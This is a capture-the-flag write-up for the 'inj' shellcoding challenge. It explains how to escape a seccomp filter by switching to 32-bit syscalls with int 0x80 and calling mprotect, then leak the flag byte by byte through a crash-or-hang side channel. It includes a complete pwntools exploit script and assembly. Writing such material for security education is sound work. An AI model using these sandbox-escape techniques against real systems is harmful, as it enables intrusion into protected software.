






Inj is a shellcoding challenge using seccomp to restrict your calls.
Opening the binary in ida we see a simple main function:


Our input gets executed as shellcode. Checking the mitigations we can see that we dont have PIE enabled.


I used seccomp-tools to discover what kind of restrictions are present in the binary.


The output tells us the following:

1. If the arch of the syscall is x86_64 then we can only call mprotect.
2. Because of the arch check from before we can deduce that the rest of the syscalls are for 32bit. Seccomp-tools fails to see this so it displays the syscall numbers for 64bit which is close (for nr == 5) and  (for nr == 3) . However if we check the respective numbers in 32bit from this [table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) we can see that the syscalls are actually open and read.


Lets start with the simple part of the challenge, switching to the 32 bit syscalls. To switch to 32 bit mode we can actually use the ```int 0x80``` assembly instruction. Our current problem is that by doing so we'll have to set our registers for 32 bit mode and this means we can't write to or read from a 6 byte address since the maximum size is 4 bytes. 

Remember the mitigations from earlier? We don't have PIE enabled. This means we actually have suitable memory addresses for 32 bit system calls (addresses that are less than or equal to 4 bytes).


And, according to the seccomp rules we can actually call mprotect as long as the call is for 64 bits.

So the first step is making the ```0x400000           0x401000 r--p     1000      0 /tmp/inj/inj``` memory segment readable, writable, and executable.
We'll then call read in 32 bit mode to read more shellcode into that memory segment, with the final step being to jump to that memory to execute the additional shellcode.
```python
from pwn import *
elf = ELF('./inj')

context.binary = elf

part1 = asm("""
add eax, 10
mov edi, 0x400000
mov esi, 0x1000
mov edx, 7
syscall
mov eax, 3
mov ecx, edi
mov edx, esi
xor ebx, ebx
int 0x80
jmp rdi
""")
```
So, what should we do now? Normally, we would use open, read, and write to print the flag to stdout, but the write syscall is not allowed!

We don’t actually need the write syscall. Instead, we can use the ```cmp``` assembly instruction to check the flag byte by byte. Since the flag is stored in memory after we open and read it (even though we can't see or print it), we can compare each byte of the flag with known values (such as every letter of the alphabet). If the comparison is successful and we find the correct byte, we’ll call read to make the program hang and wait for input. If the comparison fails and we don’t find a valid flag byte, we’ll force the program to execute an invalid instruction and cause a segmentation fault.

Lets code this step by step.
We'll open the flag.txt file (The large number stored in rax is the decimal representation of 'flag.txt', but reversed due to endianness).
```asm
mov rax, 8392585648256674918
mov rbx, 0x400800
mov [rbx], rax
mov rax, 5
xor rcx, rcx
xor rdx, rdx
int 0x80
```
Then move the file descriptor stored in rax to ebx (the first argument in 32 bit mode syscalls) and call read
```asm
mov ebx, eax
mov ecx, 0x404600
mov edx, 120
int 0x80
```
Now the flag is stored in memory, to be more precise in ecx.
The script needs to run in two loops: one loop that iterates up to a length of 100 (since we don't know the exact length of the flag, and we'll stop if we find the character '}'), and another loop that tries every possible character from the alphabet.
We'll add to the pointer that has the flag the index of the flag that we are at:
```asm
add rcx, {index}
```
Then we will compare every possible character
```asm
mov al, byte ptr [rcx]
mov bl, {ord(possible_chars[j])}
cmp al, bl
```
If the compare is not successful then we will jump to a function that causes the segfault (we use rax as a pointer even if we made if 0 beforehand).
```asm
cmp al, bl
jne .segfault
...

.segfault:
    xor rax, rax
    mov al, byte ptr [rax]
    hlt
```
But if the compare is successful we will call read so that the program will wait for input
```asm
cmp al, bl
jne .segfault
mov eax, 3
xor rbx, rbx
int 0x80
```

This will be the final script:
```python
from pwn import *
elf = ELF('./inj')

context.binary = elf
context.log_level = "error"

part1 = asm("""
add eax, 10
mov edi, 0x400000
mov esi, 0x1000
mov edx, 7
syscall
mov eax, 3
mov ecx, edi
mov edx, esi
xor ebx, ebx
int 0x80
jmp rdi
""")

possible_chars = [
    "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
    "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m",
    "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z",
    "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M",
    "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z",
    "!", "_", "}"
]

# Flag format is TFCCTF{}
index = 7
flag = "TFCCTF{"
char = '2'

for i in range(0, 100):
    for j in range(0, len(possible_chars)):
        p = elf.process()
        p.readuntil(b'executor!')
        p.send(part1)

        try:
            part2 = asm(f"""
            mov rax, 8392585648256674918
            mov rbx, 0x400800
            mov [rbx], rax
            mov rax, 5
            xor rcx, rcx
            xor rdx, rdx
            int 0x80
            mov ebx, eax
            mov ecx, 0x404600
            mov edx, 120
            int 0x80
            add rcx, {index}
            mov al, byte ptr [rcx]
            mov bl, {ord(possible_chars[j])}
            cmp al, bl
            jne .segfault
            mov eax, 3
            xor rbx, rbx
            int 0x80

            .segfault:
                xor rax, rax
                mov al, byte ptr [rax]
                hlt
            """)

            p.send(part2)
            response = p.recv(timeout=0.1)
            if response:
                print(1)
            else:
                flag += possible_chars[j]
                break

        except EOFError:
            continue
        except TimeoutError:
            print(4)
    index += 1
    print(flag)
    if (flag[-1] == '}'):
        break

p.interactive()
```

The script must be run with sudo because the prctl function used in the binary requires elevated privileges. Additionally, we need to wait a few minutes, as there is a 0.1 second timeout for each character.


Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the flag.txt, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/inj.zip)

There is no Dockerfile for this setup, as we run it on a VPS. Elevated privileges are required, and running a Docker container designed for exploitation with elevated privileges is not a good idea.